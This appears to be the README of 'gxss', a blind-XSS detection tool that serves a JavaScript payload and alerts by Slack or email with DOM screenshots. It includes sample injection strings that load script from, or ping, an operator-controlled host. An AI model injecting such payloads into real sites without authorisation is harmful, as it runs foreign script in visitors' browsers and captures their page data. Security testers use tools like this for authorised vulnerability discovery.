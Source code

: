 ## Blind XSS as a service

**gxss** is a simple tool which serves a javascript payload and allows to identify blind XSS vulnerabilities. This is similar to [xsshunter](https://github.com/mandatoryprogrammer/xsshunter), but a bit simpler to configure and run. Alerts can be sent via Slack or email. Emails will also have a screenshot of the DOM attached (which is not possible over the Slack webhook API).

![gxss](misc/mail.png)

*Note: The javascript payload was taken (and slightly modified) from [xsshunter](https://github.com/mandatoryprogrammer/xsshunter)*

### Installation

```
go get -u github.com/rverton/gxss
```

### Configuration

Create a file called `.env` or set up your environment to export the following data:
```
PORT=8080
MAIL_SERVER=mail.example.com:25
MAIL_USER=user
MAIL_PASS=pass
MAIL_TO=hello@robinverton.de
MAIL_FROM=gxss@robinverton.de
SLACK_WEBHOOK=https://hooks.slack.com/XYZ
SERVE_URL=localhost:8080
```

The `SERVE_URL` is the public accessible URL of your server.

You can leave the `MAIL_*` or the `SLACK_WEBHOOK` setting blank if you do not want to use it. Find more about how to setup Slack webhooks [here](https://api.slack.com/incoming-webhooks).

### Usage

```
$ gxss
```

You can now use a payload like the following which will load and execute the javascript payload:

```html
<script src=//yourserver.com></script>
```

gxss can also be used as a request bin. Every request matching `//yourserver.com/k{key}` will be alerted to you. Example:

```html
<img src=//yourserver.com/kTARGET1>
```

### Alternatives

* [xsshunter](https://github.com/mandatoryprogrammer/xsshunter), python, most features, alerts require Mailgun account and wildcard certificate
* [xless](https://github.com/mazen160/xless), node.js, serverless on [zeit.co](https://zeit.co), alerts over Slack
